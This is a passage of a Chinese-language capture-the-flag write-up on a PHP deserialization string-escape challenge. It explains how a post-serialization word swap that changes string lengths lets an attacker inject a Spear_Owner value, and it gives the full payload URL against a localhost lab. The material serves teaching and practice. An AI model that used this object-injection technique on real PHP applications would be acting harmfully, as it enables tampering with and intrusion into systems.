 字符串替换的函数，有很多可以选择

最终要达成Spear\_Owner为MaoLei就能得到flag了

![](./images/image-53.png)

```
如果正常没有替换，得到的序列化字符串就是这样
O:34:"Omg_It_Is_So_Cool_Bring_Me_My_Flag":2:{s:5:"Chant";s:15:"夺命十三枪";s:11:"Spear_Owner";s:6:"Nobody";}
```

从index.php那里看来，是先生成的序列化字符串，然后进行字符串替换

意思就是Chant属性的字符串长度是不会变的

```
假如chant传参di_yi_qiang
那么得到
O:34:"Omg_It_Is_So_Cool_Bring_Me_My_Flag":2:{s:5:"Chant";s:11:"Lovesickness";s:11:"Spear_Owner";s:6:"Nobody";}
可以看到di_yi_qiang（长度为11），而Lovesickness（长度为12），成功逃逸出一个字符
```

而我们要构造的目标字符串是这样的👇

```
";s:11:"Spear_Owner";s:6:"MaoLei";}（长度为35）
```

直接上Payload👇

```
http://localhost:52707/?chant=di_er_qiangdi_si_qiangdi_si_qiangdi_si_qiangdi_si_qiangdi_si_qiangdi_si_qiangdi_si_qiangdi_si_qiangdi_si_qiangdi_si_qiangdi_si_qiangdi_si_qiang";s:11:"Spear_Owner";s:6:"MaoLei";}
```
